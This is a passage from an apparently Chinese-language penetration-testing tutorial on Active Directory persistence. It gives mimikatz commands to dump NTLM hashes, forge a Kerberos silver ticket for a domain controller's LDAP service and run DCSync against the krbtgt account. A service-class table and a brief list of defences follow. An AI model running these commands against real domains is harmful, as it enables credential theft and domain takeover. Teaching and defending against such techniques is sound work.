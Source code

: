 2. 在域控中使用mimikatz获取服务账号的NTLM Hash

   ```powershell
   mimikatz log "privilege::debug" "sekurlsa::logonpasswords"
   ```

   这可以看到`DC$`的NTLM Hash

3. 然后在命令行环境下清除票据

   ```powershell
   klist purge
   ```

4. 使用mimikatz伪造银票

   ```powershell
   kerberos::golden /domain:pentest.com /sid:S-1-5-21-XXXXXXXXXX-XXXXXXXXXX-XXXXXXXXXX /target:dc.pentest.com /service:LDAP /rc4:XXXXXXXXXXXXXXXXX /user:dm /ptt
   ```

5. 验证权限

   此时再使用dcsync进行同步：

   ```powershell
   lsadump::dcsync /dc:dc.pentest.com /domain:pentest.com /user:krbtgt
   ```

   此时应该没有问题。

##### 其他服务

银票可以伪造其他服务，包括创建和修改计划任务、使用WMI对远程主机执行命令、使用Powershell进行远程主机管理等：

|                  服务类型                  |                         服务白银票据                         |
| :----------------------------------------: | :----------------------------------------------------------: |
|                    WMI                     |                        HOST<br>RPCSS                         |
|            Powershell Remoting             | HOST<br>HTTP<br>Depending on OS version may also need:<br>WSMAN<br>RPCSS |
|                   WinRM                    |                         HOST<br>HTTP                         |
|              Scheduled Tasks               |                             Host                             |
|          Windows File Share(CIFS)          |                             HOST                             |
| LDAP operations including mimikatz DCSync  |                             LDAP                             |
| Windows Remote Server Administration Tolls |                    RPCSS<br>LDAP<br>CIFS                     |

##### 白银票据的防御

* 内网中安装杀毒软件、及时更新系统补丁
* 使用组策略在域中进行相应的配置，限制mimikatz在网络中的使用
* 计算机的账号和密码默认没30天更改一次，检查设置是否生效

#### Skeleton Key

使用万能密码，也可以对域内权限进行持久化操作。
